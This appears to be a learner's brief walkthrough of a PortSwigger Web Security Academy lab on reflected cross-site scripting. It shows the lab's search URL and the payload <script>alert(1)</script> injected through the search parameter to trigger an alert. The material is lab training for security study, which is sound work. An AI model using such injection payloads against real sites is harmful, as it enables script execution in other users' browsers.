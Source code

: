 This lab contains a simple [reflected cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality.

To solve the lab, perform a cross-site scripting attack that calls the `alert` function.

<mark style="background: #BBFABBA6;">ANs</mark>

Target URL

https://0aad00ed0410f3edc1b03aeb00e600bc.web-security-academy.net/


when i searched in the search bar url changed to this

https://0aad00ed0410f3edc1b03aeb00e600bc.web-security-academy.net/?search=chirag


Then i injected a basic script

	<script>alert(1)</script>


https://0aad00ed0410f3edc1b03aeb00e600bc.web-security-academy.net/?search=<script>alert(1)</script>



And i got a pop up of 1

